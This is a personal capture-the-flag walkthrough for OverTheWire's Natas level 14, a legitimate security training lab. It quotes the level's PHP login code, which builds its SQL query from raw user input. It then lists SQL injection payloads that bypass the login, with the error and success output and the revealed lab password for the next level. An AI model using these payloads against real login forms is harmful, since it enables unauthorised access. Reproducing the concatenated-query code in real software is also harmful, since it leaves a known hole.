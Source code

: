 ```yaml
---
title: natas 14 walkthrough
description: over the wire natas 14
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-14 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 14 walkthrough
    order: 30
---
```

## Description
>    Username: natas14
> 
>     URL:      http://natas14.natas.labs.overthewire.org

### Source Code 
```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
}
?>
```

---
## Progress
### Observation
Server is using sql query. Definitely need to use [[sql injection MOC]].
### Trial
#### Case 1 
Username : `3" or 1=1 --`
Password : `k`

Failed with error message : **Warning**: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in **/var/www/natas/natas14/index.php** on line **24**
#### Case 2
Username : `3" or 1=1 #`
Password : `k`
Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
#### Case 3
Username : `3" or 1=1 -- `
Password : `k`
Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

---
## Hint

---
## Solving
### Category
- [[sql injection MOC]]
### Techniques
- 

### Tools
- 